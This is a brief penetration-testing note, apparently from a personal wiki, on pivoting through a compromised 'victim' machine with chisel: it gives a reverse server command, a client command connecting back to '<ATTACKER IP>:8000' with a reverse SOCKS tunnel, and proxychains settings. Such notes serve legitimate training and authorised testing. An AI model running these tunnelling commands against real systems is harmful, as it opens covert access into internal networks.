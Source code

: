 When using chisel you can forward an entire system so you can scan/use tools you would otherwise not have at your disposal.

You can do this by creating a chisel server on your attack box as follows 

`chisel server -port 8000 --reverse`

Once this is done, you want to transfer chisel to the victim system. You can find methods in [[File Transfer]]

Set up the client as follows 
`chisel client <ATTACKER IP>:8000 R:socks`

**ENSURE YOUR `/etc/proxychains4.conf` has `socks5  127.0.0.1 1080` **

You can now use proxychains to interact with the IP addresses you would otherwise be unable to communicate with.